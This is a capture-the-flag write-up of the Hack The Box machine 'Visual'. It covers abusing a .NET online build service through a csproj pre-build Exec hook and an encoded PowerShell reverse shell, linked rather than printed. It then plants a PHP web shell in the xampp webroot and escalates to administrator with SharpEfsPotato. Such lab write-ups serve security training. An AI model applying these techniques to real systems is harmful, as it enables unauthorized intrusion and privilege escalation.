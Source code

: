 ```yaml
---
layout: post_1
title: "Visual - HTB"
date: 2024-02-24
---
```


# HTB Visual Write Up
![HTB Visual](/assets/2024-02-24-writeups-visual-htb/machine_info.png "Visual")

## Introduction
Visual is a host that provides .NET 6 online compilation. It downloads the project from a git server and returns the compiled executable.

## Network Scan

<details>
<summary><b>Nmap scan result</b></summary>

```
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Visual - Revolutionizing Visual Studio Builds
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
```

</details>

## Investigation
The only network service to investigate for now is the http.
This service provides a remote .NET 6 compilation, if a git link is provided and the project uses a solution (.sln)
![Http Service](/assets/2024-02-24-writeups-visual-htb/http_service.png "Http Service")

### Compilation service
To test this service, first and foremost we must setup a git server.
There are multiple ways of doing it, varying from minimalistic to more complex environments.
The easiest method that we found is to setup a [Gogs Server][gogs-server].
The database was SQLite3 and no SSH Server, this method provies a straight forward installation.
Downloading the pre compiled binaries and running the web server:
`./gogs web`

The setup is the following:
![Gogs setup](/assets/2024-02-24-writeups-visual-htb/gogs_setup.png "Gogs setup")

It isn't necessary to setup any administrator.
We will create an account, a repository and clone it to our local machine.

Now we need to create a .NET project. 
```
$ mkdir Test
$ dotnet new console
$ dotnet new solution
$ dotnet sln Test.sln add Test.csproj
```

Finally, testing the project `dotnet run Test.sln`.
Before we push the code, we exclude the obj/ and bin/ with .gitignore. This step is just for good practices
The repository will look like this
![Gogs repository](/assets/2024-02-24-writeups-visual-htb/gogs_repository.png "Gogs repository")

Uploading the code through our git link
![Compilation service](/assets/2024-02-24-writeups-visual-htb/compilation_service.png "Compilation service")

Waiting for the build to complete
![Waiting to build](/assets/2024-02-24-writeups-visual-htb/waiting_to_build.png "Waiting to build")

Build completed and it fails... 
![Build completed](/assets/2024-02-24-writeups-visual-htb/build_completed.png "Build completed")

Searching for the error it seems like it has something to do with cache.  
At this point we move on because it's possible to execute pre/post build scripts on a csproj.

```xml
... SNIP ...
<Target Name="Hello" BeforeTargets="BeforeBuild">
    <Exec Command="whoami" />
</Target>
... SNIP ...
```

Using [this one liner reverse shell][ps-shell], encoding with utf16 base64 and setting the command to `powershell.exe -encodedcommand BASE64` we get a reverse shell.  
In case this doesn't work, we can just issue a `ping` command and check on wireshark/tcpdump if we get a ICMP request.

### User enox
Whoami:
```
USER INFORMATION
----------------

User Name   SID
=========== =============================================
visual\enox S-1-5-21-328618757-2344576039-2580610453-1003


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeCreateGlobalPrivilege       Create global objects          Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

No interesting privileges, but we are executing on a High Integrity Level environment.
Users on the system:
```
administrator
enox
```

Searching for interesting home files, there were only the flag and the compilation script.
`C:\Users\enox\Documents\compile.ps1`

Looking at the xampp server files we can write into `C:\xampp\htdocs\*`
To execute commands as the xampp user we can create a shell.php file with the same reverse shell as before
```php
<?php
exec('whoami');
?>
```
Executing the reverse shell and we are `nt autority\local services`

### User nt autority\local services
Whoami:
```
USER INFORMATION
----------------

User Name                  SID
========================== ========
nt authority\local service S-1-5-19


GROUP INFORMATION
-----------------

Group Name                             Type             SID                                                                                              Attributes                           
====================================== ================ ================================================================================================ ==================================================
Mandatory Label\System Mandatory Level Label            S-1-16-16384                                                                                                                          
Everyone                               Well-known group S-1-1-0                                                                                          Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545                                                                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                   Well-known group S-1-5-6                                                                                          Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1                                                                                          Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11                                                                                         Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15                                                                                         Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0                                                                                          Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-3659434007-2290108278-1125199667-3679670526-1293081662-2164323352-1777701501-2595986263 Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-383293015-3350740429-1839969850-1819881064-1569454686-4198502490-78857879-1413643331    Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-2035927579-283314533-3422103930-3587774809-765962649-3034203285-3544878962-607181067    Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-11742800-2107441976-3443185924-4134956905-3840447964-3749968454-3843513199-670971053    Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-3523901360-1745872541-794127107-675934034-1867954868-1951917511-1111796624-2052600462   Mandatory group, Enabled by default, Enabled group


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeCreateGlobalPrivilege       Create global objects          Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

The privileges are missing, we can't just get administrator straigth forward.  
To fix this we can follow the [itm4n guide][localservice-privileges].  
Then, enabling SeImpersonatePrivileges and using [SharpEfsPotato][sharpefspotato] to get adminstrator.


[gogs-server]: <https://gogs.io/> "Gogs Server"
[ps-shell]: <https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3> "Powershell Reverse"
[localservice-privileges]: <https://itm4n.github.io/localservice-privileges/> "Local Service Privileges"
[sharpefspotato]: <https://github.com/bugch3ck/SharpEfsPotato> "SharpEfsPotato"
